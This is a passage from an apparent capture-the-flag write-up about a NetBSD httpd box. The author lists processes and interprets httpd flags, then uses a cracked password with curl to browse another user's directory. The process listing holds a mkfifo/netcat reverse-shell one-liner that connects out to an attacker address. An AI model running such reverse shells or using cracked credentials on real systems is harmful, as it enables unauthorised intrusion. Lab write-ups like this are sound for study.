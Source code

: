 ```sh
_httpd      5897  0.0  0.0  20028  1716 ?     I    10:46PM 0:00.00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 6666 >/tmp/f
_httpd      6338  0.0  0.0  15948  1400 ?     S    10:46PM 0:00.00 nc 10.10.14.17 6666
_httpd      6888  0.0  0.0  20052  1688 ?     S    10:46PM 0:00.00 /bin/sh -i
_httpd      7415  0.0  0.0  35252  2328 ?     I    10:46PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www
_httpd      7517  0.0  0.0  15436  1284 ?     S    10:46PM 0:00.00 cat /tmp/f
_httpd     11343  0.0  0.0  17636  1384 ?     I     1:07AM 0:00.00 sleep 30
root         423  0.0  0.0  19780  1580 ttyE0 Is+   8:19PM 0:00.00 /usr/libexec/getty Pc constty
root         421  0.0  0.0  19780  1576 ttyE1 Is+   8:19PM 0:00.00 /usr/libexec/getty Pc ttyE1
root         388  0.0  0.0  19780  1584 ttyE2 Is+   8:19PM 0:00.00 /usr/libexec/getty Pc ttyE2
root         433  0.0  0.0  19780  1584 ttyE3 Is+   8:19PM 0:00.00 /usr/libexec/getty Pc ttyE3
```

There seem to be two services running on localhost, one on port `3000` and one on `3001`. They both seem to be running the same httpd binary and weather service. But when looking closely, they seem to be using different scripts and command-line flags. It's time to have a deeper look into this httpd binary:

```txt
 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_dev
el.pid -U r.michaels -b /home/r.michaels/devel/www
```

With the help of my search engine, I bumped into [this](https://man.netbsd.org/NetBSD-6.0.1/httpd.8) NetBSD httpd manpage. Let's have a look and try to piece together what each argument does:

| Argument | Description                                                                                                      |
| -------- | ---------------------------------------------------------------------------------------------------------------- |
| -u       | Enables the transformation of Uniform Resource Locators of the form /~user/ into the directory ~user/public_html |
| -X       | Enables directory indexing                                                                                       |
| -s       | Forces logging to be set to stderr always.                                                                       |
| -i       | Sets the address to be used.                                                                                     |
| -I       | Causes httpd to use the given port instead of the default one.                                                   |
| -U       | Causes httpd to switch to the given user                                                                         |

The interesting thing here is the `-u` flag, which allows access to user directories by using a URL in the form of `/~user/`. `-U`, on the other hand, runs the service under a different user. So let's have a look at the service running on port `3001`. It requires some form of authentication, but we already managed to crack a password, lets see if that one works:

```sh
$ curl -u webapi_user:iamthebest localhost:3001/~r.michaels/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601    0   601    0     0   146k      0 --:--:-- --:--:-- --:--:--  146k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
```